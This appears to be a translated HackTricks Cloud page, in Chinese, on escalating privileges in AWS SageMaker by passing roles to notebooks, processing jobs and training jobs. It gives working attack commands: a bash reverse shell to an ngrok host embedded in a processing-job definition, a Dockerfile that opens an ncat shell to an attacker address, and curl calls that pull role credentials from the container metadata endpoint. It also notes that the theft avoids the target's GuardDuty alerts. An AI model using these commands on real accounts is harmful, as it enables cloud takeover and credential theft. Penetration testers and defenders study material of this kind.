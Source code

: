 # AWS - Sagemaker权限提升

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

在此攻击过程中的第一步是**识别一个信任SageMaker来承担角色的角色**（sagemaker.amazonaws.com）。完成后，我们可以运行以下命令使用该角色创建一个新的笔记本：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
如果成功，您将在AWS的响应中收到新笔记本实例的ARN。这需要几分钟来启动，但一旦启动完成，我们可以运行以下命令来获取一个预签名URL，通过我们的Web浏览器访问笔记本实例。可能还有其他获取访问权限的方法，但这是一个单一的权限和单一的API调用，所以看起来很简单。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
如果此实例已完全启动，此API调用将返回一个我们可以在浏览器中访问的**签名URL**，以便访问该实例。一旦在浏览器中打开Jupyter页面，我将点击右上角的“Open JupyterLab”按钮，如下图所示。

![](<../../../.gitbook/assets/image (15) (1).png>)

在下一个页面中，在“Launcher”选项卡中向下滚动。在“Other”部分下，点击“Terminal”按钮，如下图所示。

![](<../../../.gitbook/assets/image (27).png>)

从终端中，我们有几个选项，其中之一是**使用AWS CLI**。另一个选项是直接联系EC2元数据服务以获取IAM角色的凭证并将其泄露。

当阅读上面的“将其泄露”时，可能会想到GuardDuty，但是在这里我们实际上不需要担心GuardDuty。相关的GuardDuty发现是[“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_unauthorized.html#unauthorized11)，如果角色的凭证从EC2实例中被窃取并在其他地方使用，将会发出警报。幸运的是，这个EC2实例实际上并不在我们的账户中，而是在AWS拥有的账户中托管的。这意味着我们可以泄露这些凭证而不必担心触发目标的GuardDuty检测器。

**潜在影响：**提升到指定的sagemaker服务角色。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

与前面的示例类似，如果Jupyter笔记本已在其中运行，并且您可以使用sagemaker:ListNotebookInstances列出它们（或以其他方式发现它们）。您可以为它们生成一个URL，访问它们，并像前面的技术中所示那样窃取凭证。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**潜在影响：**提升至附加的Sagemaker服务角色。

### `sagemaker:CreateProcessingJob,iam:PassRole`

具有这些权限的攻击者可以使Sagemaker执行一个附加了Sagemaker角色的处理作业。攻击者可以指定在AWS托管的ECS帐户实例中运行的容器的定义，并窃取附加的IAM角色的凭据。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在影响：**特权升级到指定的Sagemaker服务角色。

### `sagemaker:CreateTrainingJob`，`iam:PassRole`

拥有这些权限的攻击者将能够创建一个训练作业，并在其中运行一个任意容器，并附加一个角色。因此，攻击者将能够窃取该角色的凭据。

{% hint style="warning" %}
与之前的情况相比，这种情况更难利用，因为您需要生成一个Docker镜像，该镜像将直接将反向shell或凭据发送给攻击者（您无法在训练作业的配置中指定一个启动命令）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在影响：**提升到指定的Sagemaker服务角色。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

具有这些权限的攻击者（可能）能够创建一个**超参数训练作业**，并在其中**运行任意容器**，并附加一个**角色**。\
由于时间不足，我没有进行利用，但它看起来与先前的利用类似，欢迎提交PR以提供利用细节。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的动态 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

